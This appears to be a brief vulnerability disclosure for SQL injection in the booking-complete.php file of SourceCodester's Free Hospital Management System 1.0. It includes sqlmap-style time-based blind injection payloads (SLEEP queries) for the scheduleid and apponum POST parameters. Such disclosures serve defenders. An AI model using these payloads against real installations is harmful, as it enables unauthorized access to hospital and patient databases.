


https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file \vm\patient\booking-complete.php

The manipulation of the argument $userid,$apponum,$scheduleid, leads to sql injection

```
Parameter: scheduleid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1&scheduleid=1 AND (SELECT 3799 FROM (SELECT(SLEEP(5)))LBFS)&date=2023-07-09

Parameter: apponum (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1 AND (SELECT 6268 FROM (SELECT(SLEEP(5)))nFTS)&scheduleid=1&date=2023-07-09
```

